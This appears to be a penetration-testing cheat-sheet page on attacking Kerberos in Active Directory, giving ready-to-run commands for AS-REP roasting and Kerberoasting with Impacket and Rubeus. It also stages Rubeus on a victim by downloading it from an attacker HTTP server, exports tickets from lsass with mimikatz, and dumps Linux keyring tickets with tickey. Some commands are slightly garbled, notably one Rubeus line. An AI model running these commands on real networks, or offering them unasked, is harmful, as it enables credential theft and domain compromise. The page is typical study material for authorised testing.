 # Kerberos - 88

## Kerberos Information

Kerberos is a protocol for authentication, not authorization. In other words, it allows for the identification of each user who provides a secret password, but it does not validate which resources or services this user has access to. Active Directory makes use of Kerberos. Kerberos provides information about each user's privileges on this platform, but it is the responsibility of each service to determine whether the user has access to its resources.

Default Port: 88/tcp/udp

```text
PORT   STATE SERVICE
88/tcp open  kerberos-sec
```

## Abuse Kerberos

### ASEPRoasting

If the Kerberos pre-authentication has been disabled for an account, that means that it is vulnerable to ASREPRoasting. As soon as we have a username, we can use the GetNPUsers script from Impacket to retrieve its password hash:

```text
GetNPUsers.py domain/username -request -no-pass -dc-ip 10.10.10.11
```

After capturing the hash, you can then copy the TGT in a file and try to crack it with john or hashcat.

### Kerberoasting from the Attacker Machine

If Kerberos is open, then you may try a Kerberoasting attack with GetUsersSPNs script from Impacket:

```text
impacket-GetUserSPNs domain.local/user:password -request 
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 10.10.10.10
```

If Kerberos was port forwarded to your localhost then you may try the following:

```text
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 127.0.0.1
```

### Kerberoasting on Victim Machine

#### Rubeus

Rubeus.exe is one of the many tools that can perform a Kerberoasting attack on the victim machine.

Clone rubeus.exe on the attacker machine

```text
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
```

Set up a listener to transfer the file to the victim machines

```text
python -m http.server 80
```

Download the file from the attacker's machine.

```text
iwr -uri http://10.10.10.11/Rubeus.exe -OutFile Rubeus.exe
```

Execute the Kerberoasting attack on the victim machine \(in this example we will perform a Kerberoasting with alternate credentials\)

```text
C:\temp\Rubeus.exe -> check the roating possibilities
C:\temp\Rubeus.exe kerberoast /creduser:domain.local\user /credpassword:password1234
```

You will then see the hash that you can copy into the attacker machine and try to crack it with john or hashcat.

### Harvesting Tickets from Windows

The lsass \(Local Security Authority Subsystem Service\) process, which is responsible for security in Windows, handles and stores tickets. As a result, in order to obtain tickets from a Windows machine, you must contact with lsass and request them. Only owned tickets can be retrieved as a non-administrative user; however, as a machine administrator, you can harvest all of them.

```text
mimikatz # sekurlsa::tickets /export
# Rubeus when Mimikatz doesn't work.
.\Rubeus dump [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

### Harvesting Tickets from Linux

Extract  tickets from Linux Kernel Keyrings \(read the repo\):

{% embed url="https://github.com/TarlogicSecurity/tickey" %}

```text
/tmp/tickey -i
```



